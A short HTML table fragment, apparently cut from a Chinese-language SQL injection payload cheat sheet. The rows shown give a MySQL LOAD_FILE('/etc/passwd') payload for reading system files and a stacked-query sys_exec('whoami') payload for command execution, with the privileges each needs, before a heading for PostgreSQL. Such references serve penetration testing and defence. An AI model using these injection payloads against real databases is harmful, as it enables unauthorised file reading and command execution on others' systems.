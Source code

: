 LOAD_FILE(&#39;/etc/passwd&#39;),1</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="190" width="190" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">LOAD_FILE()</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="111" width="111" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">命令执行</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="250" width="250" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39;;SELECT sys_exec(&#39;whoami&#39;) --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="190" width="190" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">需</span></font><font face="方正小标宋_GBK"><span leaf="">FILE权限+secure_file_priv</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p></o:p></span></p></td></tr></tbody></table>  
  
2.PostgreSQL  